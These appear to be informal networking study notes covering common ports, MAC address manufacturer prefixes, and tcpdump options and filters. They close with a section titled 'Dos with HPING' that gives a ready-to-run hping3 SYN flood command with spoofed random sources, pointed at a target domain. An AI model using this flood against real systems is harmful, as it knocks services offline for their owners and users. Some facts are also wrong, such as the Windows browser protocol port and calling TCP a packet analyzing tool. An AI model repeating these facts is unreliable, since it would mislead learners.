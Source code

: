 SMTP -> Port 25 (Emails)
HTTP -> Port 80
SSH -> Port 22
Microsoft Windows Browser Protocol -> Port 136

First three digit pairs in mac address tells us about the manufacturer of the device.

The Stream is a collection of packets that form a network conversation from the beginning to the end, just like a story.

8.8.8.8 IP address of Google DNS.

# TCP Dump:
TCP is a packet analyzing tool.

**Options:**
1. `-D` *List of Network Interfaces*
2. `-i` *To specify interface to listen*
3. `-n` *Don't convert address to names*
4. `-v` `-vv` `-vvv` *Verbosity Levels*
5. `-w` *Write raw packets to the file*
6. `-r` *Reads packets from a file*
7. `-A` *Prints each packet as an ASCII only headers*
8. `-X` *Print in ASCII and Hex form*
9. `-x` *Prints in Hex form only*

**Filtering**
1. `ip`, `arp`,`udp`,`tcp`,`icmp`...
2. `host`,`net`
3. `port`,`portrange`
4. `src`,`dst`
5. `and`, `or`

# HPING:
Dos with HPING:
```bash
hping3 --flood  -S -V --rand-source "Target Domain here"
```





